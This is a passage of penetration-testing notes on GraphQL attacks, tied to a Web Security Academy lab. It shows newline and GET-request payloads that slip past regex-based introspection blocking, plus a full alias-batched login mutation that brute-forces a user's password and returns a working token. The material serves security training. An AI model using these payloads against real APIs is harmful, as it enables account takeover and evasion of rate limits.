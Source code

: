 ## Bypassing GraphQL introspection defences

If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the `__schema` keyword or change the HTTP method and content-type.

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex (see also [Evading whitelist-based input filters](Evading%20Restrictions.md#Evading%20whitelist-based%20input%20filters)).

```graphql
# Introspection query with newline

{
	"query": "query{__schema
	{queryType{name}}}"
}

# Introspection probe as GET request

GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```


## Bypassing rate limiting using aliases

Ordinarily, GraphQL objects can't contain multiple properties with the same name. [Aliases](GraphQL.md#Aliases) enable you to bypass this restriction by explicitly naming the properties you want the API to return. You can use aliases to return multiple instances of the same type of object in one request.

While aliases are intended to limit the number of API calls you need to make, they can also be used to brute force a GraphQL endpoint.

```http
POST /graphql/v1 HTTP/1.1
Host: 0a7700b804847876804280b900030002.web-security-academy.net
Cookie: session=Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA
Content-Length: 8799
Accept: application/json
Content-Type: application/json
Connection: close

{"variables": {}, "query": "\n    mutation login {\n        l123456: login(input:{password: \"123456\", username: \"carlos\"}) {token success}\r\nlpassword: login(input:{password: \"password\", username: \"carlos\"}) {token success}\r\nl12345678: login(input:{password: \"12345678\", username: \"carlos\"}) {token success}\r\nlqwerty: login(input:{password: \"qwerty\", username: \"carlos\"}){token success} ...


HTTP/1.1 200 OK
{
  "data": {
    "l123456": {
      "token": "Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA",
      "success": false
    },
    "lpassword": {
      "token": "Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA",
      "success": false
    },
    ...
    "landrew": {
      "token": "bQdyn36vx6O9tryHxdC2Srrr2DdSpW27",
      "success": true
    },
```